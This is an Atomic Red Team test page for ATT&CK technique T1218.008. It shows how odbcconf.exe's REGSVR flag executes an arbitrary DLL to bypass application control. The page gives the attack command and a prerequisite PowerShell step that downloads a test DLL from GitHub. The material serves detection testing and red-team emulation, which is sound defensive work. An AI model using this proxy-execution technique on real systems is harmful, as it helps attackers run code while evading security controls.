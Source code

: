 # T1218.008 - Odbcconf
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1218/008)
<blockquote>Adversaries may abuse odbcconf.exe to proxy execution of malicious payloads. Odbcconf.exe is a Windows utility that allows you to configure Open Database Connectivity (ODBC) drivers and data source names.(Citation: Microsoft odbcconf.exe) Odbcconf.exe is digitally signed by Microsoft.

Adversaries may abuse odbcconf.exe to bypass application control solutions that do not account for its potential abuse. Similar to [Regsvr32](https://attack.mitre.org/techniques/T1218/010), odbcconf.exe has a <code>REGSVR</code> flag that can be misused to execute DLLs (ex: <code>odbcconf.exe /S /A &lbrace;REGSVR "C:\Users\Public\file.dll"&rbrace;</code>). (Citation: LOLBAS Odbcconf)(Citation: TrendMicro Squiblydoo Aug 2017)(Citation: TrendMicro Cobalt Group Nov 2017) 
</blockquote>

## Atomic Tests

- [Atomic Test #1 - Odbcconf.exe - Execute Arbitrary DLL](#atomic-test-1---odbcconfexe---execute-arbitrary-dll)


<br/>

## Atomic Test #1 - Odbcconf.exe - Execute Arbitrary DLL
Execute arbitrary DLL file stored locally.

**Supported Platforms:** Windows


**auto_generated_guid:** 2430498b-06c0-4b92-a448-8ad263c388e2





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| dll_payload | DLL to execute | Path | PathToAtomicsFolder&#92;T1218.008&#92;src&#92;Win32&#92;T1218-2.dll|


#### Attack Commands: Run with `command_prompt`! 


```cmd
odbcconf.exe /S /A {REGSVR "#{dll_payload}"}
```




#### Dependencies:  Run with `powershell`!
##### Description: T1218-2.dll must exist on disk at specified location (#{dll_payload})
##### Check Prereq Commands:
```powershell
if (Test-Path #{dll_payload}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{dll_payload}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.008/src/Win32/T1218-2.dll" -OutFile "#{dll_payload}"
```




<br/>

